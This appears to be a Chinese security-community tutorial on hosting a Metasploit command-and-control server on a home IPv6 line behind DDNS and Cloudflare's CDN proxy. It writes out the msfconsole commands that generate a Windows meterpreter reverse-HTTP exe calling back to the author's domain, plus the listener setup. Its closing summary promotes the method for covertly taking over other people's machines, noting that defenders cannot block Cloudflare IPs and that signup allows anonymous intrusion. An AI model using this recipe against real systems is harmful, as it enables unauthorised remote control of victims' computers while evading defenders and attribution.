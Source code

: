 

# 使用家用 IPv6 设备来上线接管电脑 - 先知社区

使用家用 IPv6 设备来上线接管电脑



# 前言介绍

我国也正在积极推广普及 IPv6 技术，个人家庭光猫基本上都是支持 IPv6 的，IPv6 我们可以理解为一个公网 IP，由于 IPv6 资源数量非常庞大，足够保障我们的家庭每个设备都有自己的公网 IPv6 地址，这一切预示着万物互联的时代即将到来，从理论角度来看，利用家用设备的 IPv6 地址来建立 C2 服务器也是可行的。

但是企业内网当中基本上是不可能有公网 IPv6 地址的，没有 IPv6 的话就无法访问到我们的 C2 服务器，这也是本文核心要展开说的地方，话不多说，直接看下文吧。

# 方案草图

整体方案实现其实不难，最主要的就是下面两个知识点：

1.  IPv6 DDNS 解析到指定域名
2.  借助 Coudflare 内部的 CDN 代理将 IPv6 流量转到 IPv4

[![](assets/1701606762-a34266601607ccb21c0bb8f293eeba3c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173014-16eb9a9c-7c87-1.png)

# 准备工作

总的来说就是下面两个步骤即可：

1.  安装好带 IPv6 地址的 Ubuntu 一台
2.  接入好 Cloudflare 的域名一个

## 检查 IPv6 网络

准备一个没有公网 IPv4 地址，但是存在公网 IPv6 地址的 Ubuntu 系统一个，正常家用的主机基本上是满足上述要求的：

[![](assets/1701606762-4edccf3093a326c218d97bfa476f8313.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173023-1c7e2e8e-7c87-1.png)

## 安装 Metasploit

MSF 是经典的 C2 工具，其他的 C2 工具基本上线原理仿造一下即可，我们先来手动来安装一下 Metasploit：

```plain
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

[![](assets/1701606762-65ead7fdace32a9ece07b5862afec859.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173114-3ad27638-7c87-1.png)

## 创建 CF 的 API 令牌

为了保持权限最小化原则，我们这里只[创建](https://dash.cloudflare.com/profile/api-tokens)一个修改 itermux 域名的 DNS 权限 API 令牌：

[![](assets/1701606762-fa71b01bf78f7e1a41405f3b102e7bc9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173102-338d6176-7c87-1.png)

## 安装部署 DDNS-GO

DDNS-GO 的官方项目地址为：[https://github.com/jeessy2/ddns-go](https://github.com/jeessy2/ddns-go)

DDNS-GO 的作用是将公网地址解析到各大云厂商的域名上。下载好 DDNS-GO 参考官方文档安装一下即可：

```plain
sudo ./ddns-go -s install
```

接着访问服务器的 9876 端口即可打开 DDNS-GO 的配置页面，首先填写我们的 CF 的 API Token：

[![](assets/1701606762-a85e082edf505f5fbf95aba3589cecd4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173054-2ed4e41a-7c87-1.png)

最后配置一下要 IPv6 对应解析的域名即可：

[![](assets/1701606762-6b333f100e47526db59b244b8f2a84f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173513-c96716b0-7c87-1.png)

通过 DDNS-GO 的日志可以看到 msf.itermux.com 域名成功解析到了我们的公网 IPv6 地址：

[![](assets/1701606762-5f47a0eb10530a4771a33450f1779b9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173125-418fcf3e-7c87-1.png)

## 配置 Cloudflare

因为当前默认域名解析的是 IPv6 地址，IPv4 设备是无法访问到我们的域名的，为此我们需要手动开启 CF 的代理，借助 CF 将域名转换成 IPv4 也可以访问的 IP 地址：

[![](assets/1701606762-bb3d5c974d2a246779a1b0a00b1039ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173141-4b1818b8-7c87-1.png)

然后手动关闭一下 CF 的 SSL 加密：

[![](assets/1701606762-b54ffb86e4707f002fd8f88443eea5d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173147-4eb264a6-7c87-1.png)

## 验证连通性

首先在服务器上借助 Python3 监听应该 IPv6 的 80 端口：

```plain
python3 -m http.server 80 --bind ::
```

然后直接访问我们的 msf.itermux.com 域名测试成功访问：

[![](assets/1701606762-20654615f1564b90661508cdfc868cf7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173203-583ebdf8-7c87-1.png)

# 操作细节

既然上述操作跑通的话，那么下面直接来尝试一下 MSF 上线吧。后续的操作就比较简单常规了，我们很快的来过一下：

## 生成 Payload

我们使用 meterpreter\_reverse\_http 的 Payload，HOST 填写我们的 IPv6 地址 DDNS 的域名 msf.itermux.com，端口就填写 80 端口：

```plain
msf6 > use payload/windows/x64/meterpreter_reverse_http
msf6 > set LHOST msf.itermux.com
msf6 > set LPORT 80
```

[![](assets/1701606762-42755ac38800b21692178c6d62433b8b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173215-5ef8cc60-7c87-1.png)

然后直接在 msfconsole 控制台里面使用 generate 生成 Windows exe 木马文件：

```plain
msf6 payload(windows/x64/meterpreter_reverse_http) > generate -f exe -o shell.exe
[*] Writing 208384 bytes to shell.exe...
```

## 监听会话

这里监听的细节是 `set LHOST ::` 表示监听本地的 IPv6 地址：

```plain
msf6 > use exploits/multi/handler
msf6 > set payload windows/x64/meterpreter_reverse_http
msf6 > set LHOST ::
msf6 > set LPORT 80
```

[![](assets/1701606762-4748476a9d694288e7247b7c33939b9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173240-6e11a280-7c87-1.png)

## 上线效果

运行 shell.exe 后既上线成功，通过 netstat 命令查看，可以看到多个上线的会话连接，这些外连 IP 均为 Cloudflare 的 CDN IP，蓝方防守的话封是封不完，而且不敢封的，因为国内很多大型网站可能也用的是 Cloudflare。

[![](assets/1701606762-cc526aefba97ae4f0fd02db0ea3b3a30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173231-68e6a030-7c87-1.png)

MSF 的上线记录效果如下，可以看到 CF 的 CDN IPv6 服务器和本地的 IPv6 交互的记录：

[![](assets/1701606762-f3fcdc9d786e94c34c6d051f29f74398.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173250-743ab7b4-7c87-1.png)

# 方案总结

1.  以后上线别人的话，不用买云服务器了，连接 SIM 热点或者直接使用家用光猫有 IPv6 地址就行
2.  IPv6 还在普及中，监管方面也比较弱，且 IPv6 也是动态的，很灵活
3.  Cloudflare 的 CDN 外连 IP 蓝方不敢轻易封禁，因为国内很多大厂也用的 Cloudflare 的 CDN
4.  Cloudflare 的 CDN 是多种多样的，封一个两个也封不完的
5.  Cloudflare 的域名接入也不需要实名操作，理论上是可以做到完全匿名的渗透上线的
